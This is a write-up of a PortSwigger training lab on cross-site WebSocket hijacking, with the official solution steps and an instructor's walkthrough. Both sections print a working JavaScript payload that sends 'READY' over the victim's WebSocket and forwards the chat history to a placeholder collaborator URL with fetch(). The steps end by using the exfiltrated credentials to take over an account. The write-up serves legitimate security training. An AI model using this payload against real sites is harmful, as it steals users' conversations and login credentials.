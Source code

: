 # Lab: Cross-site WebSocket hijacking

URL https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab

Description:
This online shop has a live chat feature implemented using WebSockets.

To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a [cross-site WebSocket hijacking attack](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking) to exfiltrate the victim's chat history, then use this gain access to their account.

Portswigger Solution:

1. Click "Live chat" and send a chat message.
2. Reload the page.
3. In Burp Proxy, in the WebSockets history tab, observe that the "READY" command retrieves past chat messages from the server.
4. In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no CSRF tokens.
5. Right-click on the handshake request and select "Copy URL".
6. In the browser, go to the exploit server and paste the following template into the "Body" section:
    
    `<script> var ws = new WebSocket('wss://your-websocket-url'); ws.onopen = function() { ws.send("READY"); }; ws.onmessage = function(event) { fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data}); }; </script>`
7. Replace `your-websocket-url` with the URL from the WebSocket handshake (`YOUR-LAB-ID.web-security-academy.net/chat`). Make sure you change the protocol from `https://` to `wss://`. Replace `your-collaborator-url` with a payload generated by [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator).
8. Click "View exploit".
9. Poll for interactions in the Collaborator tab. Verify that the attack has successfully retrieved your chat history and exfiltrated it via Burp Collaborator. For every message in the chat, Burp Collaborator has received an HTTP request. The request body contains the full contents of the chat message in JSON format. Note that these messages may not be received in the correct order.
10. Go back to the exploit server and deliver the exploit to the victim.
11. Poll for interactions in the Collaborator tab again. Observe that you've received more HTTP interactions containing the victim's chat history. Examine the messages and notice that one of them contains the victim's username and password.
12. Use the exfiltrated credentials to log in to the victim user's account.

Instructor notes:

 Click "Live chat" and send a chat message, if we reload the page, or leave to another part of the web application and come back to the live chat, we see that it is saved.

This is interesting because we have to start asking how is it saving this conversation, could we maybe steal someone else conversation?

Okay from here we lets check the broswer console, and lets check the application tab, check out the cookies, and we can inspect the cookie we have in there and we notice two things,

first that we actually have the value of our cookie but also that the same-site attriubte is set to none, and this means that the cookies are insecure and could be subjective to an attack.

Okay so we go to burp suite and assuming we were capturing all of the traffic, lets go to the GET request, and lets see the URL /chat and we see that we have in the response the HTTP/1.1 101 Switching protocol which indicates we can check our Websocket history

From there we inspect the Websocket history and we see

Ping, Pong but also Ready.

Instructor mentions it highlights the fact that before we get the chat history the web socket sends the READY message and then the history loads.

So the instructor crafts the following payload:


`<script> var ws = new WebSocket('wss://your-websocket-url'); ws.onopen = function() { ws.send("READY"); }; ws.onmessage = function(event) { fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data}); }; </script>`

for the web socket url we can just utilize the websocket url from our websocket history from burp suite, and for the colloaborator it will have to be from the collaborartor tab on burpsuite

we go back to the portswigger lab, we click on "Go to Exploit Server" and from there we send the crafted payload

If we go back to the web socket history and we click on Poll now we can get some traffic now

and if we look through the history we find a secret password and we can log in as carlos 
